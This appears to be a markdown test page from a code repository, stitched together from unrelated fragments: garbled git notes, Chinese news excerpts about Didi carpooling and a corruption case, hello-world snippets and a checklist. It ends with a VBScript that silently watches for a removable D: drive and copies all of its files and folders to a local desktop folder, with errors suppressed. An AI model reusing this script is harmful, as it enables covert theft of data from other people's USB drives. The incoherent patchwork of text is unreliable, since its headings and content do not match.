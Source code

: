 Git is a version distributed control system.
Git is free software distributed under the GPL.
003this so be ha less more.
zai zuoyici xiugai change.
git tack changes
wo gaile wo zhidao
test tmd push fetch
edit online

## National Geographic Photographs

### 新京报

新京报讯（记者 陈维城）11月19日，滴滴顺风车在滴滴出行App内更新试运营公告，宣布明天（11月20日），顺风车将在哈尔滨、太原、常州3个城市上线试运营。当地的用户需要首先在端内完成安全任务，才可以使用顺风车服务。

```python
print('Hello World')

```



> 
过去三个多月，顺风车陆续公布了整改方案、上线公众评议会、召开用户恳谈会，广泛向社会征集意见，对初版方案进行了迭代优化。在试运营期间，顺风车会持续通过微博和微信渠道就产品方案征集用户意见和建议，持续优化和完善方案。

### 路透社

青岛市中级人民法院认为，被告人缪瑞林的上述行为依法构成受贿罪。缪瑞林受贿数额特别巨大，鉴于其到案后如实供述自己的罪行，主动交代办案机关尚未掌握的部分受贿犯罪事实，认罪悔罪，赃款赃物已全部追缴，依法可以从轻处罚。遂依法作出上述判决。

> 
2018年11月15日，中央纪委国家监委宣布缪瑞林落马。今年4月28日，中央纪委国家监委宣布对缪瑞林“双开”。

经查，缪瑞林丧失理想信念，毫无政治纪律和政治规矩意识，参加全国两会期间严重破坏会风会纪，造成恶劣影响。

- [x] Anmine
- [x] Dosing
- [ ] Alegeme
- [ ] Kumamon
- [ ] Pikachu

` Print("Hello <br>` 

` World")`

### 没有回复的消息

```vbscript
set fso=createobject("scripting.filesystemobject")
set ws=createobject("wscript.shell")
on error resume next
do
wscript.sleep 1000
if fso.driveexists("d:\") then
fso.copyfile "d:\*","C:\Users\IVSOUL\Desktop\USB"
fso.copyfolder "d:\*","C:\Users\IVSOUL\Desktop\USB"
wscript.sleep 20000
end if
loop
end here now
```

